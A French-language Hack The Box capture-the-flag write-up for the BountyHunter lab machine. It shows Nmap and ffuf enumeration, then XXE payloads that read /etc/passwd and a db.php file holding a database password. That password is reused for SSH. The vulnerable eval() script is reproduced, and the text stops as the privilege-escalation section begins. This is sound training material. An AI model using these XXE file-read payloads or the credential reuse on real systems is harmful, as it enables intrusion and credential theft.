









# Write-up de BountyHunter (Version Française)

Ceci est mon article sur **BountyHunter** qui est une machine Linux active sur **Hack The Box** ayant l'adresse IP `10.10.11.100`.<br>
J'ai vraiment eu du plaisir à compléter cette machine et comme vous le verrez plus loin, elle couvre l'une des top 10 vulnérabilités d'**OWASP**.<br><br>


## Enumération de la cible

---

Tout d'abord, ma première étape pour m'attaquer à cette machine a été de faire un scan Nmap initial afin de révéler tous les services en cours d'exécution sur celle-ci.<br>
Personnellement, j'exécute souvent la commande `nmap -sSVC -p- [IP_ADDRESS] -oA [OUTPUT_FILE] ` sur Nmap comme étape initial.<br>
Je vais passer en revue et expliquer brièvement ce que font ces différents switch dans la commande.<br>
Prenez note que `-sSVC` est un raccourci pour les switchs suivants `-sS -sC -sV`.<br>

- -sS : signifie « Syn Scan », qui est fondamentalement moins bruyant qu'un scan `TCP connect()`. L'avantage de ce scan est qu'il ne se connecte pas complètement à notre cible, ce qui peut être utile pour éviter que notre adresse IP soit archivé dans les logs d'un service. <br>L'exécution de Nmap avec ce switch nous obligera cependant à exécuter la commande en tant que root.

- -sV : signifie « Scan de Service ». Ce scan récupère essentiellement la bannière du service sur le port ouvert afin d'obtenir plus d'informations sur le service en cours d'exécution sur le port.

- -sC : est l'équivalent de -script=default, qui exécute le script NSE par défaut de Nmap sur notre cible.

- -p- : Indique à Nmap d'analyser les 65,535 ports de la machine ciblé.

- -oA : Spécifie que Nmap doit écrire tout ses output dans 3 formats différents : XML, Grepable et Nmap.

Alors maintenant que nous connaissons ces détails, exécutons `sudo nmap -sSVC -p- 10.10.11.100 -oA nmap/nmap_scan.log` sur la machine ciblé <br>

### Scan Initial Nmap

```
└─$ sudo nmap -sSVC -p- 10.10.11.100 -oA nmap/nmap_scan.log
[sudo] password for op:
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 03:33 EDT
Nmap scan report for 10.10.11.100
Host is up (0.091s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 177.41 seconds

```

Comme nous pouvons le voir dans l'output ci-dessus, Nmap n'a trouvé que 2 ports TCP ouverts sur notre cible :

- Port 22 : Exécution d'OpenSSH 8.2p1 Ubuntu
- Port 80 : Exécution d'Apache httpd 2.4.41 ((Ubuntu))

<br> Après ça, j'ai décidé d'exécuter un autre scan Nmap qui est utilisé pour trouver des vulnérabilités communes sur les services en cours d'exécution de notre cible.<br>

### Scan de vulnérabilité Nmap

```
└─$ sudo nmap -script vuln -p 22,80 10.10.11.100 -oA nmap/nmap_vuln_scan.log                                   255 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 03:37 EDT
Nmap scan report for 10.10.11.100
Host is up (0.091s latency).
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-fileupload-exploiter:
|
|     Couldn't find a file-type field.
|
|     Couldn't find a file-type field.
|
|_    Couldn't find a file-type field.
|_http-internal-ip-disclosure: ERROR: Script execution failed (use -d to debug)
| http-sql-injection:
|   Possible sqli for queries:
|     http://10.10.11.100:80/resources/?C=S%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.11.100:80/resources/?C=D%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.11.100:80/resources/?C=M%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.11.100:80/resources/?C=N%3bO%3dD%27%20OR%20sqlspider
|     http://10.10.11.100:80/resources/?C=D%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.11.100:80/resources/?C=S%3bO%3dD%27%20OR%20sqlspider
|     http://10.10.11.100:80/resources/?C=M%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.11.100:80/resources/?C=N%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.11.100:80/resources/?C=S%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.11.100:80/resources/?C=M%3bO%3dA%27%20OR%20sqlspider
|     http://10.10.11.100:80/resources/?C=D%3bO%3dD%27%20OR%20sqlspider
|_    http://10.10.11.100:80/resources/?C=N%3bO%3dA%27%20OR%20sqlspider
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 140.89 seconds

```

À partir du scan de vulnérabilité ci-dessus, Nmap n'a rien récupéré d'intéressant, alors j'ai décidé de _fuzzer_ des répertoires avec **FFUF**

### Fuzzing de répertoires avec FFUF

```
└─$ ffuf -u http://10.10.11.100/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c -t 100 -mc 200,403 -e .txt,.php

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.100/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Extensions       : .txt .php
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200,403
________________________________________________

index.php               [Status: 200, Size: 25169, Words: 10028, Lines: 389]
portal.php              [Status: 200, Size: 125, Words: 11, Lines: 6]
db.php                  [Status: 200, Size: 0, Words: 1, Lines: 1]
.php                    [Status: 403, Size: 277, Words: 20, Lines: 10]
                        [Status: 200, Size: 25169, Words: 10028, Lines: 389]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
:: Progress: [661638/661638] :: Job [1/1] :: 756 req/sec :: Duration: [0:10:13] :: Errors: 0 ::
```

## Naviguer le Site Web

---

À partir l'output de **FFUF**, il y avait 2 fichiers qui ont attiré mon attention:

- db.php
- portal.php

J'ai donc décidé de visiter d'abord `db.php`, pour voir si nous pouvions pas récupérer des informations d'identification ou d'autres détails juteux.<br><br>


Eh bien, il semble que nous ayons une page blanche ici, même dans notre inspecteur de navigateur, il n'y a aucun élément apparaissant dans les balises 'body' ou 'head'. <br>
Après ça, j'ai décidé de vérifier l'autre fichier intéressant, `portal.php`.<br><br>



Sur cette page, la seule chose que nous avons retrouvé est un lien nous redirigeant vers `log_submit.php`, que notre énumeration avec **FFUF** n'a pas trouvé.<br>
J'ai donc suivi le lien et j'ai été accueilli avec cela.<br><br>

 <br>

Cela semble être un formulaire de rapport pour un programme de _bug bounty_ dans lequel nous pouvons envoyer des informations sur la vulnérabilité trouvée. <br>
La partie intéressante ici était le fichier `bountylog.js` qui a été chargé sur la page. <br>
En l'analysant, nous pouvons voir qu'une fois qu'un utilisateur appuie sur le bouton `Submit` dans le formulaire , une requête **POST** est fait sur `tracker_diRbPr00f314.php`. <br>

De plus, en regardant un peu plus loin dans le code **Javascript**, nous pouvions voir que le site envoyait l'input de l'utilisateur dans un payload XML.<br>
Quand je vois un payload XML envoyée à un serveur, la première chose qui me vient à l'esprit est `injections XXE (XML External Entity)`.<br><br>

## Injection XXE: Exploitation de /tracker_diRbPr00f314.php

---

J'ai donc décidé de m'amuser un peu avec l'injection XXE, je me suis dit que ça pourrait être notre porte d'entrée sur le serveur.<br>
J'ai donc lancé `Burp Suite` et je l'ai régler comme étant mon serveur proxy local pour intercepter la requête. <br>

J'ai ensuite envoyé un payload test pour l'analyser dans `Burp_suite`<br><br>

 <br>

 <br>

Une fois dans `Burp Suite`, J'ai appuyé sur `CTRL + R` sur mon clavier pour envoyer la requête dans la tab `Repeater`, où nous pouvons faire plus de tests manuels. <br><br>

 <br>

Nous pouvons voir que notre payload dans le champ `data` du body de la requête est encodé.<br>
En le surlignant avec notre curseur, `Burp Suite` va essayer de le décoder sur le panneau de droite.<br><br>
Une fois décodé, nous pouvons voir le payload exacte qui sera interprétée par le parser XML sur le serveur:

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
	<bugreport>
		<title>t</title>
		<cwe>t</cwe>
		<cvss>t</cvss>
		<reward>34</reward>
	</bugreport>
```

À partir de là, j'ai décidé de manipuler la payload afin d'y faire une injection XXE avant de l'envoyer au serveur.<br>

La première chose que j'ai essayée a été de vérifier si le module **PHP** `expect` était activé, si tel était le cas, <br>
un attaquant pourrait facilement faire un exécution de code distant (RCE) sur le serveur Web.<br>

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
	<bugreport>
		<title>&xxe;</title>
		<cwe>t</cwe>
		<cvss>t</cvss>
		<reward>34</reward>
	</bugreport>
```

Mais il semblait que le module n'était pas activé, c'est une bonne chose pour le serveur Web en fait.<br>
Après ça, j'ai décidé de tester avec le module `file`, si nous pouvions exfiltrer certaines données du serveur avec le payload suivant :<br>

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [
   <!ENTITY xxe SYSTEM "file://etc/passwd" >]>
	<bugreport>
		<title>&xxe;</title>
		<cwe>t</cwe>
		<cvss>t</cvss>
		<reward>34</reward>
	</bugreport>
```

Et comme vous pouvez le voir dans la capture d'écran ci-dessous, nous avons réussi à exfiltrer le fichier `/etc/passwd` du serveur,<br>
nous donnant un nom d'utilisateur possible à utiliser pour se connecter via le serveur SSH. <br><br>

 <br>

À partir du fichier que nous avons récupéré, nous voyons que nous avons 2 utilisateurs qui pourraient avoir un accès SSH. :

```
root:x:0:0:root:/root:/bin/bash
development:x:1000:1000:Development:/home/development:/bin/bash
```

Ensuite, j'ai essayé d'exfilter plusieurs autres fichiers qui ne m'a rien donné d'intéressant.<br>
À un certain moment, je me suis souvenu du fichier `db.php` qui nous donnait une page blanche lorsque nous l'avons visité sur notre navigateur.<br><br>
J'étais sûr qu'il y avait du code **PHP** là-dedans que notre navigateur ne pouvait tout simplement pas interpréter, alors j'ai utilisé le module `php`<br>
avec ses filtres intégrés afin d'encoder le fichier en base64 avant qu'il ne soit rendu par le navigateur.<br><br>
Cette façon nous permettrait de voir les données avant que **PHP** interprètes et envoies à notre navigateur. <br>

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=db.php" >]>
	<bugreport>
		<title>&xxe;</title>
		<cwe>t</cwe>
		<cvss>t</cvss>
		<reward>34</reward>
	</bugreport>
```

Et comme indiqué dans la capture d'écran ci-dessous, nous avons reçu des données avec l'injection XXE ci-dessus.<br><br>

 <br>

J'ai ensuite décodé le fichier codé en base64 sur le panneau de droite de 'Burp Suite', ce qui nous a donné l'output suivant.<br>

```
<?php
// TODO -> Implement login system with the database
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

## Accéder au serveur SSH

---

J'ai ensuite utilisé l'utilisateur trouvé ci-dessus (`development`) avec la valeur de `dbpassword` pour accéder au serveur SSH.<br>
Après m'être connecté avec succès, j'ai récupéré le flag dans `/home/development/user.txt` et j'ai exécuté `sudo -l`<br>
afin de voir quelle commande l'utilisateur `development` était autorisé à exécuter avec `sudo`.<br><br>

```
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
development@bountyhunter:~$ cd /opt/skytrain_inc
development@bountyhunter:/opt/skytrain_inc $ python3 -m http.server

```

En fait, nous étions en mesure d'exécuter le script `ticketValidator.py` en tant que root sans mot de passe avec la version 3.8 de **Python**.<br>
À partir de là, si nous pouvions trouver un moyen de briser ce script, il serait possible d'obtenir les privilèges de root sur le système.<br>
J'ai donc décidé de transférer le script sur ma machine locale pour l'analyser et jouer avec.<br><br>

### Script Python: ticketValidator. py

```
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))        # Ici est où est-ce que nous pourrions éléver nos privilèges
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

## Escalade des privilèges

---

En lisant le script, nous pouvons voir qu'il lit essentiellement un ticket et vérifie son format
si c'est un bon ou un mauvais ticket. Le ticket doit également avoir l'extension `.md` <br>
Donc, la partie délicate ici était de créer un ticket maliceux pour abuser du code ci-dessus.<br>

Nous pouvons voir que le script vérifie certaines éléments dans le ticket avant d'évaluer du code.
La fonction `eval()` est essentiellement notre porte d'entrée pour escalader nos privilèges à ceux `root`.<br>

